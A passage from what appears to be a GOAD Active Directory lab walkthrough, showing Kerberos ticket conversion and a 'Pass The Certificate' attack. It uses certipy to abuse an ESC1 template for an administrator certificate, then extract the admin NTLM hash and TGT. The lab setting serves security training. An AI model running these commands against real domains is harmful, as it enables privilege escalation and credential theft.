 ```bash
ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
```

![lateral_ptt.png](/assets/blog/GOAD/lateral_ptt.png)

## Certificate

### Pass The Certificate (Cert -> NTLM or TGT)

- Back in our ESC1 case we request a certificate 

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
```

- With certipy we can request the ntlm hash of the user and the TGT too

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

![lateral_certificate.png](/assets/blog/GOAD/lateral_certificate.png)
